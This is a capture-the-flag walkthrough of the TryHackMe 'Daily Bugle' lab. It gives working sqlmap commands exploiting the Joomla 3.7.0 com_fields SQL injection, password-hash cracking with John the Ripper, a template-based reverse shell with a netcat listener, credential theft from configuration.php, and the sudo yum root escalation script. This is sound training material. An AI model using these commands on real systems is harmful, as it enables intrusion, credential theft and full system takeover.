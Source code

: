 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)
 
Room Link: https://tryhackme.com/room/dailybugle

## Tools 

1. NMap https://nmap.org/download
2. JoomScan https://github.com/OWASP/joomscan
3. SearchSploit https://www.exploit-db.com/searchsploit
4. SQLMap https://github.com/sqlmapproject/sqlmap
5. hashid https://pypi.org/project/hashID/
6. John The Ripper https://www.openwall.com/john/

## Deploy 

1. Start the machine and open the ip in browser.
2. Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
3. Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

1. Running nmap gives some ports.
```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```
2. Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
4. Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.
```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
5. After some reasearch on the exploit https://www.exploit-db.com/exploits/42033 and using some commands in SQLMap,
At first we crafted a command to begin SQL injection `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E`
6. Then crafted a SQLMap command to get db names `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E --dbs` and got a database named `joomla`
7. Then crafted a command to table names on DB `joomla` command `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla --tables` and we will get a table named `#__users`
8. To extract the table column names, we can use this command, `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" --columns` it will prompt for bruteforcing existing column names, we can find some column names like `id`, `username`, `email`, `password` etc.
9. Then, crafted a command to get password hash of users. `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" -C id,name,username,email,password --dump`
It shows result like that,
```bash
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| id  | name       | username | email               | password                                                     |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| 811 | Super User | jonah    | jonah@tryhackme.com | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
```
10. We used `hashid` to detect hash type and it could be `bcrypt`.
```bash
hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
11. Now we can use `john the ripper` to decrypt the hash, using `rockyou.txt` wordlist.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********   (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
12. Question `What is Jonah's cracked password?` Answer `spiderman123`
13. Now we can login using username `jonah` and password `spiderman123` on http://10.10.250.153/administrator/.
14. Now just goto `Extensions` > `Templates` > `Templates` and select `Beez3` and edit the `index.php` file to get reverse shell.
15. Now started  `netcat` with `nc -lvnp 1234` and replaced the code in `index.php` with pentestmonkey shell with own ip port and save.
16. Opening http://10.10.250.153/templates/beez3/index.php will give shell.
```bash
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.250.153 56764
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:23:12 up  5:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
```
17. We can see only user named `jjameson` with command `ls /home`.
18. After some digging we got some password `*************` inside `/var/www/html/configuration.php` using `cat /var/www/html/configuration.php`.
19. So used the password to login ssh as user `jjameson` and got the flag
```bash ssh jjameson@10.10.250.153
The authenticity of host '10.10.250.153 (10.10.250.153)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.153' (ED25519) to the list of known hosts.
jjameson@10.10.250.153's password: 
Last login: Tue Mar  5 04:27:31 2024
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt
**************************
```
20. Question `What is the user flag?` Answer `**************************`
21. Using `sudo -l` command shows `/usr/bin/yum`.
```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
22. Lets follow https://gtfobins.github.io/gtfobins/yum/ sudo exploit to get root.
23. Just copy pasting given commands in `b` will upgrade ssh to `root`
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
24. So typing `cat /root/root.txt` will give us root flag.
```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
******************************
```
25. Question `What is the root flag?` Answer `**************************`

## Credits

1. We already completed the machine, just click on completed.

Author: [Zishan Ahamed Thandar](https://github.com/ZishanAdThandar/WriteUps/tree/main?tab=readme-ov-file#about-me)
